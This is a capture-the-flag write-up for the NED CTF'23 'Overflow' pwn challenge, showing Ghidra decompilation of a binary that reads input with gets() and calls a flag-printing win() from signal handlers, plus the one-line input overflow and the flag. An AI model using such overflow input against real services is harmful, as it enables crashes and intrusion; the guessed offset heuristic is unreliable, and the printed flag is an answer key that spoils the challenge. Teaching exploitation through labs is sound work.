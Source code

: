```yaml
---
title: NED CTF'23 - Pwn - Overflow
date: '2023-07-03'
tags: ['ctf', 'pwn', 'nedctf', 'writeup', 'buffer-overflow', 'x64']
draft: false
summary: A classic x64 stack overflow.
---
```


## Challenge Description

Can you overflow the buffer and get the flag?

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

```bash
nc 159.223.192.150 9001
```

![chal-info](/static/writeups/nedctf/pwn/overflow0.png)


## Solution

Downloading the `overflow.zip`, we get the following files

![files](/static/writeups/nedctf/pwn/overflow1.png)

`overflow` is the binary, `flag.txt` is a testing flag file to do local testing. However, `.gdb_history` seem pretty interesting. Let's see what's inside

![gdb-history](/static/writeups/nedctf/pwn/overflow2.png)

Well, that was a dead-end, let's check the file type and the checks on the binary

![file](/static/writeups/nedctf/pwn/overflow3.png)

Well, let's open this in Ghidra and see what's going on

![functions](/static/writeups/nedctf/pwn/overflow4.png)

We can see 3 functions that see pretty interesting, `overflow_handler`, `segv_handler` and `win`. Before checking them out, let's checkout the `main` function.

```c
undefined8 main(void) {
  sigaction local_168;
  sigaction local_c8;
  char local_28 [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  fflush(stdout);
  local_c8.__sigaction_handler = segv_handler;
  local_c8.sa_flags = -0x80000000;
  sigaction(0xb,&local_c8,(sigaction *)0x0);
  local_168.__sigaction_handler = overflow_handler;
  local_168.sa_flags = 0x10000000;
  sigaction(6,&local_168,(sigaction *)0x0);
  banner();
  printf("\n\nEnter your name: ");
  gets(local_28);
  printf("Hello, %s\n",local_28);
  return 0;
}
```

Okay, straight off the bat, we can see `gets` function being used. This is a classic buffer overflow vulnerability. Along with that, it's making use of `sigaction` to handle the `SIGSEGV` and `SIGABRT` signals. According to the man page

> The sigaction() system call is used to change the action taken by a process on receipt of a specific signal.  (See signal(7) for an overview of signals.)

Okay, in simpler terms, the first sigaction i.e. `local_c8` is handling SEGV, i.e. segmentation fault, that in case the process tries to access a memory location that it doesn't have access to, it will be handled by the `segv_handler` function. The second one, is being handled by `overflow_handler`, and will be called in case a buffer overflow occurs. Let's take a look at the `segv_handler` function.

```c
void segv_handler(void) {
  puts("Segmentation fault detected");
  win();
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Pretty straight forward function, simply calls the `win` function. Let's take a look at `overflow_handler` function.

```c
void overflow_handler(void) {
  puts("Buffer overflow detected!");
  win();
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

Similar to the `segv_handler` function, it simply calls the `win` function. Let's take a look at the `win` function.

```c
void win(void) {
  int iVar1;
  FILE *__stream;
  
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error: could not open file.");
  }
  else {
    printf("\nHere\'s your flag: ");
    while( true ) {
      iVar1 = fgetc(__stream);
      if ((char)iVar1 == -1) break;
      putchar((int)(char)iVar1);
    }
    fclose(__stream);
  }
  return;
}
```

Here, the `win` function is simply opening the `flag.txt` file and printing it's contents. So, we need to overflow the buffer and call the `win` function.

Now, to solve this, we can simply overflow the buffer, and let the signal handlers give us the flag. The buffer size specified is `32`, however, to overflow, I calculate using the following technique:

```md
BUFFER_SIZE * 4 - in case of 32-bit binaries
BUFFER_SIZE * 8 - in case of 64-bit binaries
```

However, I don't know how accurate this is, but it works for me. Now, let's try out the first method, i.e. overflowing the buffer and letting the signals give us the flag.

```bash
$ python -c "print('A' * 40)" | ./overflow
```

![overflow](/static/writeups/nedctf/pwn/overflow5.png)

Now, it was that easy. Simply piping the output into the `nc` command, we get the flag

![flag](/static/writeups/nedctf/pwn/overflow6.png)

```md
Flag: NCC{y0ur_v3ry_f1rst_s3g_f4ult}
```
